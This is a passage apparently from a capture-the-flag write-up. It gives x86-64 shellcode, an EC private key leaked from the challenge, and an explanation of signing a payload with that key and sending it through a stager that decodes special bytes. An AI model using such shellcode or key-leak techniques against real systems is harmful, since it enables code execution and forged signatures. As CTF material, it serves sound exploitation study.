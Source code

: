 ```asm=
call ipc

perma:
jmp perma

ipc:
mov rax, 0x500406
jmp rax

memcpy:
mov rax, 0x5002E8
jmp rax

strlen:
mov rax, 0x5002D0
jmp rax

madvise:
mov rax, 0x1c
syscall
ret
```

```
-----BEGIN EC PRIVATE KEY-----
MGgCAQEEHFOoXTFtgQ2GbWqDNlPLZm2mIiZaIRT0YaL4vb2gBwYFK4EEACGhPAM6
AARpzCU89v2W6PVX5V7YalhfQV2w++qp5clllv7w71oXfoMVhNuq9KwCMwGQ+8O4
MoqoZXO1iBFOGg==
-----END EC PRIVATE KEY-----
```

Once we've leaked the key, we can patch it into our own local binary where it should go. The local binary provides a convenient command line option to sign payloads as desired. All that is left is to transmit our payload to the server. `socat` is unhappy with certain bytes (e.g. 0x03) which the challenge authors use as an EOF byte. The IPC mechanism itself for reading in data breaks on newlines. Therefore, I actually used a stager payload to receive my module file and un-encode those special bytes from it.

```asm=
nop

mov r12, 0x0807060504030201

; leak base
mov rax, [0x502120]
mov rax, [rax+0x28]
sub rax, 0x206280
add rax, 0x206000
mov r14, rax
add r14, 0x20

; this value is patched to the number of encoded bytes
mov rdi, 0x5555555555555555
call read_bytes
mov r14, rax

; process it and copy it to the right buffer
; this value is patched to the number of decoded bytes
mov rdi, 0x5656565656565656
call malloc
mov r15, rax

; INPUT LENGTH
mov r8, 0x5555555555555555

```